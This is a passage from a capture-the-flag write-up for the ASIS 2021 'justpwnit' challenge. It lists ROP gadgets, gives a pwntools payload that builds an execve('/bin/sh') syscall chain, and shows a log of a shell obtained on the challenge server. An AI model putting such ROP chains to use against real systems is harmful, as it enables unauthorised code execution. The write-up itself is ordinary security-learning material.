 ## ROPchain

Once we can pivot the stack to makes it point to some user controlled areas,
we just have to rop through all the gadgets we can find in the binary.  
The binary is statically linked, so we can't make a ret2system, we have to
make a `execve("/bin/sh\0", NULL, NULL)`.

And so what we need is:  
- pop rdi gadget  
- pop rsi gadget  
- pop rdx gadget  
- pop rax gadget  
- syscall gadget  
- mov qword ptr [reg], reg [to write "/bin/sh\0"] in a writable area

We can easily find these gadgets with the help
(ROPgadget)[https://github.com/JonathanSalwan/ROPgadget].  
We got:

```  
0x0000000000406c32 : mov qword ptr [rax], rsi ; ret  
0x0000000000401001 : pop rax ; ret  
0x00000000004019a3 : pop rsi ; ret  
0x00000000004013e9 : syscall  
0x0000000000403d23 : pop rdx ; ret  
0x0000000000401b0d : pop rdi ; ret  
```

Now we just have to craft the ropchain !

```py  
POP_RDI = 0x0000000000401b0d  
POP_RDX = 0x0000000000403d23  
SYSCALL = 0x00000000004013e9  
POP_RAX = 0x0000000000401001  
POP_RSI = 0x00000000004019a3

MOV_RSI_PTR_RAX = 0x0000000000406c32  
PT_LOAD_W = 0x00000000040c240

pld = pwn.p64(0) + pwn.p64(POP_RSI) + b"/bin/sh\x00"  
pld += pwn.p64(POP_RAX) + pwn.p64(PT_LOAD_W)  
pld += pwn.p64(MOV_RSI_PTR_RAX)  
pld += pwn.p64(POP_RAX) + pwn.p64(0x3b)  
pld += pwn.p64(POP_RDI) + pwn.p64(PT_LOAD_W)  
pld += pwn.p64(POP_RSI) + pwn.p64(0)  
pld += pwn.p64(POP_RDX) + pwn.p64(0x0)  
pld += pwn.p64(SYSCALL)  
```

And we can enjoy the shell !

```  
➜  justpwnit git:(master) ✗ python3 exploit.py HOST=168.119.108.148 PORT=11010  
[*] '/home/nasm/pwn/asis2021/justpwnit/justpwnit'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[+] Opening connection to 168.119.108.148 on port 11010: Done  
[*] Switching to interactive mode  
$ id  
uid=999(pwn) gid=999(pwn) groups=999(pwn)  
$ ls  
chall  
flag-69a1f60d8055c88ea27fed1ab926b2b6.txt  
```